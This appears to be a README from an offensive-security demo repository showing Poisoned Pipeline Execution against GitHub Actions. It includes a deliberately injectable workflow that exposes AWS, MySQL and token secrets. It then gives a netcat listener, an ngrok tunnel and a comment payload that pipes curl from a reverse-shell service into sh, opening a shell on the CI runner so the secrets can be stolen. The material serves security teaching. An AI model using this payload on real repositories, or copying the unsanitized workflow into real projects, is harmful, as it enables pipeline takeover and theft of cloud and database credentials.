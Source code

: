 # Github Actions: Poisoned Pipeline Execution


This folder showcases a GitHub Actions vulnerable to Poisoned Pipeline Execution (PPE). 

### Demo Objective 

The objective of this demo is to illustrate how an attacker can exploit a vulnerable GitHub Action setup to:

- Execute remote code.

- Exfiltrate sensitive secrets from the GitHub environment.

## Prerequisites 

To run this demo, ensure you have:

- Access to a GitHub repository with GitHub Actions enabled.

- Permission to modify GitHub Actions workflows.

- Awareness of the ethical implications of testing in a controlled environment.

## Instructions 
 
1. **Setup** : Create a new Github repository.
 
2. **Configuration** : Inside the new repo, create the `.github/workflows` repo.
 
3. **Execute** : Inside the workflow repo create a yaml file called `vulnerable.yaml` and copy the following inside:  
```yaml
name: command-injection-demo
on:
  issue_comment:
    types: [created]
jobs:
  auto-manage-new-issue:
    runs-on: ubuntu-latest
    steps:
      - name: Retrieve Issue Information
        run: |
          echo ${{ github.event.comment.body }}
        env:
          AWS_API_KEY: ${{ secrets.AWS_API_KEY }}
          MYSQL_CONNECTION_STRING: ${{ secrets.MYSQL_CONNECTION_STRING }}
          GENERIC_TOKEN: ${{ secrets.GENERIC_TOKEN }}
```  

This GitHub Action workflow (`command-injection-demo`) triggers on the creation of issue comments.  
Upon activation, it retrieves the body of the comment (`${{ github.event.comment.body }}`) and echoes it directly within the workflow execution environment.  
The vulnerability lies in the lack of input sanitization for `${{ github.event.comment.body }}`.  
Since the workflow echoes this variable without any validation or sanitization, an attacker can potentially inject arbitrary operating system (OS) commands into the workflow.  
By crafting a malicious comment, an attacker could exploit this vulnerability to execute unauthorized commands within the GitHub Actions environment and exfiltrate the secrets (`AWS_API_KEY`, `MYSQL_CONNECTION_STRING` and `GENERIC_TOKEN`).  


 
4. **Exploit** : Create a new issue and add a new comment to it, see what happens:  

![legit-comment](./images/legit_issue_comment.png)  
![legit-action-run](./images/legit_action_run.png)   
 
As you can see the action was triggered by our comment in printed out the body of the comment.  

At this point we can proceed to poison the execution 😈

In order to do that we will use [*ngrok*](https://ngrok.com/) (you can also use [*Cloudflare Tunnels*](https://www.cloudflare.com/products/tunnel/) or whatever tool fit the need to seamlessy expose a local service to the internet).  


Open a new nectcat local listener:  
```sh
nc -lnvp 1337
```  

Forward an ngrok tcp tunnel on the same port: 

```sh
ngrok tcp 1337
```  

Now, retrieve the `Forwarding` address (DNS name) from ngrok output and with that we can construct our malicious payload (you can also use ngrok public IP instead of the dns name).  

Our payload will be:  
```console
"" && sh -c 'curl https://reverse-shell.sh/<NGROK-IP-OR-DNS-NAME>:<NGROK-PUBLIC-PORT> | sh'
```  


This payload will be the body of our new malicious comment on the GitHub issue:  
![payload](./images/ppe_payload.png)  

When we leave this comment, it will trigger the GitHub Action, and that payload will be injected directly into the runner (agent) of the action and executed, thereby opening a reverse shell within the remote environment of the pipeline.    
From there, we will have the ability to exfiltrate secrets.    
Watch a demonstration of the entire workflow in the following video:  


https://github.com/R3DRUN3/sploitcraft/assets/102741679/ffd8696e-1271-469e-9629-38c3b087f28c








